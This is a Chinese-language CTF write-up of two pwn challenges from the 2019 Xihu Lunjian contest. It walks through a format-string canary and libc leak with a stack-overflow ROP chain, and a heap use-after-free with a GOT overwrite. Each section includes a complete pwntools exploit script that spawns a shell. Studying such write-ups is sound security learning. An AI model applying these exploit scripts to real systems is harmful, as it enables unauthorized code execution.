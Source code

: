 ```yaml
---
title: 西湖论剑pwn部分writeup
date: 2019-04-07 18:51:01
tags:
---
```


这次一共有3道pwn题，出了2道，1道是简单格式化字符串+栈溢出，1道是简单堆UAF，还有一道以为是unlink结果开了PIE不知道怎么下手。

题目源文件：[link](https://github.com/CP32/ctf-pwn/tree/master/%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%912019)，文件夹中的可能打了patch，压缩包中的是原题。

<!--more-->

# Story:

IDA分析，sub_400915函数中有个格式化字符串漏洞，sub4009A0函数中有个栈溢出漏洞。

checksec分析：

```
[*] '/home/ljb/ctf/xihu2019/story'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

发现有canary，没有开PIE，那么就可以利用格式化字符串漏洞去leak canary（通过这次题发现了每个函数的canary都是一样的），同时leak出read函数地址，再利用栈溢出调用system("/bin/sh")即可get shell。

##### exp:

```python
from pwn import *
io=remote("ctf1.linkedbyx.com",10465)
#io=process("./story")
elf=ELF("story")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_read=libc.symbols['read']
puts_plt=elf.plt['puts']
read_got=elf.got['read']
pop_rdi=0x400bd3

io.recvuntil("ID:")
io.sendline("%15$paaaaaa%10$s"+p64(read_got))
io.recvuntil("Hello ")
message=io.recvuntil("\n")
canary=message[:18]
print canary
canary=int(canary,16)
read_addr=u64(message[24:30]+'\x00\x00')
print hex(read_addr)

libcbase=read_addr-libc_read
system_addr=libcbase+libc.symbols['system']
binsh_addr=libcbase+libc.search("/bin/sh").next()

io.recvuntil("story:\n")
io.sendline("200")
io.recvuntil("story:\n")
payload='a'*0x88
payload+=p64(canary)
payload+='a'*8
payload+=p64(pop_rdi)
payload+=p64(binsh_addr)
payload+=p64(system_addr)
io.sendline(payload)
io.interactive()

```

![cat flag](https://github.com/CP32/ctf-pwn/blob/master/%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%912019/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20190407191455.png?raw=true)



------



# **noinfoleak:**

checksec分析：

```
[*] '/home/ljb/ctf/xihu2019/noinfoleak'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

IDA分析，程序分为3部分功能，1：create，2：delete，3：edit。其中在delete部分存在一个UAF漏洞，只释放了堆空间但没有把存储指针的地方清零。所有堆的地址存储在bss段，下面称呼为info数组。

`free(info[2 * v0]);                         // UAF`

因为防护为Partial RELRO，而且没开PIE，因此考虑修改GOT表来get shell。又因为UAF漏洞，所以应该是利用改fd，达成任意地址写。一开始思路错了，想直接把堆迁移到GOT表上，结果发现对size的验证导致出错。后来想了想换成把堆迁移到bss段上。

##### 思路：

首先，申请几个堆，这里应该是要至少3个，比赛时没考虑直接申请了5个，不影响。然后再申请一个大小为0x18（大于0X18也可以）的堆A。之后delete(A)，利用UAF，把A的fd改成info首地址。然后重新把A申请回来，这时A原来所在的fastbin的fd指针会指向info首地址。再申请一个0x18大小的地址，就会把info开始的一块空间当作堆B分配出去。（这里要注意堆B的size要设好，就是info[1]，这里应设为0x31，否则会报错）

接下来对堆B的内容修改，相当于对info进行修改，所以我们把info[2]改为free_got，info[4]改为read_got，接下来调用edit函数，修改index为1的堆，这个堆的地址存在info[2]，则可以达成把free_got改为puts_plt，然后调用delete(2)，达成puts(read_got)，即可泄露read的地址，计算出libc偏移。

之后就简单了，故技重施，把free_got改为system，info[4]中放"/bin/sh"的地址，再调用delete(2)，达成system("/bin/sh")，get shell成功！

##### exp:

```python
from pwn import *
#io=process("./noinfoleak")
io=remote("ctf3.linkedbyx.com",11106)
elf=ELF("noinfoleak")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(size,content):
	io.recvuntil(">")
	io.send("1")
	io.recvuntil(">")
	io.sendline(str(size))
	io.recvuntil(">")
	io.send(content)

def delete(index):
	io.recvuntil(">")
	io.sendline("2")
	io.recvuntil(">")
	io.sendline(str(index))

def edit(index,content):
	io.recvuntil(">")
	io.sendline("3")
	io.recvuntil(">")
	io.sendline(str(index))
	io.recvuntil(">")
	io.send(content)

free_got=elf.got['free']
read_got=elf.got['read']
puts_plt=elf.plt['puts']
bss=0x6010a0

#gdb.attach(io)
create(49,'A'*49)#0
create(8,'A'*8)#1
create(8,'A'*8)#2
create(8,'A'*8)#3
create(8,'A'*8)#4
create(0x18,'A'*0x18)#5

#delete(4)
delete(5)

edit(5,p64(bss))
create(0x18,'a'*0x18)#6=old 5
create(0x18,p64(free_got)+p64(49)+p64(read_got))#7,info[2]=free_got
edit(1,p64(puts_plt))#free->puts
delete(2)#puts(read_got)
read_addr=u64(io.recvuntil("\n")[:-1]+'\x00\x00')
print hex(read_addr)

libcbase=read_addr-libc.symbols['read']
system_addr=libcbase+libc.symbols['system']
binsh_addr=libcbase+libc.search("/bin/sh").next()

edit(7,p64(free_got)+p64(49)+p64(binsh_addr))#info[2]=free_got,info[4]=&"/bin/sh"
edit(1,p64(system_addr))#free->system
delete(2)#system("/bin/sh")
io.interactive()
```

![cat flag](https://raw.githubusercontent.com/CP32/ctf-pwn/master/%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%912019/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20190407194055.png)



##### 西湖2019后记：

终于不用背锅了，算是第一次在有点名气的正式比赛中做出pwn题，而且做出了还在学的堆。但是这次比赛题还是太简单了，还有很长的路要走，继续加油吧！